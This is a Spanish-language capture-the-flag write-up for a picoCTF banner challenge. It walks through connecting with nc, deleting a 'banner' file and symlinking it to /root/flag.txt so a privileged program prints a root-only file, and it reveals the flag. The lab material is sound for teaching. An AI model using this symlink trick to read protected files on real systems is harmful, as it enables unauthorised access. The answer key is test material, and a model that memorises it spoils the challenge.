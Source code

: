 
**Reto:**
-Estropear un archivo con permisos para acceder a un archivo y obtener la bandera.

**Descripción:**
-Can you abuse the banner?
-The server has been leaking some crucial information on `tethys.picoctf.net 62748`. Use the leaked information to get to the server.
To connect to the running application use `nc tethys.picoctf.net 63109`. From the above information abuse the machine and find the flag in the /root directory.

**Solución:**
Entrar a la conexión, sustituir el archivo usado en el programa con un symlink hacia el archivo protegido y ejecutar el programa para obtener la bandera.
-Ingresar a la conexión con información filtrada para obtener la contraseña.
```
$ nc tethys.picoctf.net 62748
```
-Ingresar a la segunda conexión.
```
$ nc tethys.picoctf.net 63109
```
-En el programa de ingreso a la conexión, ingresar la contraseña y responder a las preguntas que hace el programa.
-Una vez dentro de la instancia, borrar el archivo 'banner'.
```
$ rm banner
```
-Crear un Symlink hacia el archivo 'flag.txt' en la carpeta root.
```
$ ln -s /root/flag.txt banner
```
-Salir de la instancia con exit.
```
$ exit
```
-Al salir volverá a ejecutarse el programa, donde el baneer será sustituido por la bandera.

El resultado es: **picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_8126c9b0}**.

**Notas adicionales:**
-Un Symlink es un archivo que esta ligado a otro archivo.
-Existen enlaces duros y enlaces sueves.

**Referencias:**
https://www.freecodecamp.org/news/symlink-tutorial-in-linux-how-to-create-and-remove-a-symbolic-link/